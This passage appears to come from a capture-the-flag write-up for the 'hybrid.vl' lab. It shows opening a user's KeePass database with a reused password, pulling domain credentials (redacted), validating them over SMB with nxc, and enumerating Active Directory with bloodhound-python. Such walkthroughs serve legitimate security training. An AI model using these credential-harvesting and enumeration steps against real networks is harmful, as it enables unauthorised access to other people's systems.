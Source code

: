 ```
```

## dc01.hybrid.vl
In `peter.turner`;s home directory we find `kdbx` file, we can transfer it using share. To access it we can use `kpcli` and luckily the password we found in `dovecot-users` works
```
└─$ kpcli               

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passwords.kdbx
Provide the master password: *************************
kpcli:/> ls
=== Groups ===
eMail/
Internet/
hybrid.vl/
kpcli:/> cd hybrid.vl/
kpcli:/hybrid.vl> ls
=== Entries ===
0. domain                                                                 
1. mail                                                   mail01.hybrid.vl

kpcli:/hybrid.vl> show -f 0

 Path: /hybrid.vl/
Title: domain
Uname: peter.turner
 Pass: <REDACTED>
  URL: 
Notes: 

kpcli:/hybrid.vl> 
```

Let's check creds with `nxc`
```
└─$ nxc smb 10.10.165.181 -u peter.turner -p '<REDACTED>' 
SMB         10.10.165.181   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:hybrid.vl) (signing:True) (SMBv1:False)
SMB         10.10.165.181   445    DC01             [+] hybrid.vl\peter.turner:<REDACTED>
```

Now, we can gather domain info via bloodhound
```
└─$ bloodhound-python -u peter.turner -p '<REDACTED>' -d hybrid.vl -dc dc01.hybrid.vl -ns 10.10.165.181 --zip -c All
INFO: Found AD domain: hybrid.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.hybrid.vl
<SNIP>
```
